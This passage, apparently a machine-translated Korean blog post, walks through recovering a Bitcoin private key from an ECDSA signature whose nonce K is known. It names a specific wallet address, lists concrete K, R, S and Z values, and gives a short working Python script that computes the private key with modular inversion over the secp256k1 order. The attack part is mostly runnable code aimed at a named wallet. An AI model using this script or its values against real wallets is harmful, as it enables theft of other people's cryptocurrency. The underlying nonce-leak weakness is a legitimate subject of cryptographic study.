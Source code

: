 

<p><code>K = 0x39ec5220d3937da589231cbaa5b04002ce3b5689173680ee110ef81287f7867e</code></p>



<p>이제 비밀 키를 알고 있으므로 비트코인 ​​지갑에 대한 개인 키를 얻을 수 있습니다.<code>12bXHGbbWeqyixHpNjeSmq271ennbLRXh9</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><em>Python</em>&nbsp;스크립트를 사용합시다&nbsp;&nbsp;.&nbsp;&nbsp;<code>calculate.py</code>&nbsp;&gt; &gt; &gt; 개인 키 가져오기</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>코드를 열고 서명의 모든 값을 추가합시다<code><strong>K, R, S, Z</strong></code></p>



<pre class="wp-block-code"><code>def h(n):
    return hex(n).replace("0x","")

def extended_gcd(aa, bb):
    lastremainder, remainder = abs(aa), abs(bb)
    x, lastx, y, lasty = 0, 1, 1, 0
    while remainder:
        lastremainder, (quotient, remainder) = remainder, divmod(lastremainder, remainder)
        x, lastx = lastx - quotient*x, x
        y, lasty = lasty - quotient*y, y
    return lastremainder, lastx * (-1 if aa &lt; 0 else 1), lasty * (-1 if bb &lt; 0 else 1)

def modinv(a, m):
    g, x, y = extended_gcd(a, m)
    if g != 1:
        raise ValueError
    return x % m
    
N = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141


K = 0x39ec5220d3937da589231cbaa5b04002ce3b5689173680ee110ef81287f7867e
R = 0xdd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc8
S = 0x6a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e42103
Z = 0xe3836edb5789a3be19cb8b0c9bc8cb1ae2fd58c30d745ae34ceac35c20c0c21c


print (h((((S * K) - Z) * modinv(R,N)) % N))</code></pre>



<h2>스크립트는 다음 공식을 사용하여 개인 키를 계산합니다.</h2>



<p><code>Privkey = ((((S * K) - Z) * modinv(R,N)) % N)</code></p>


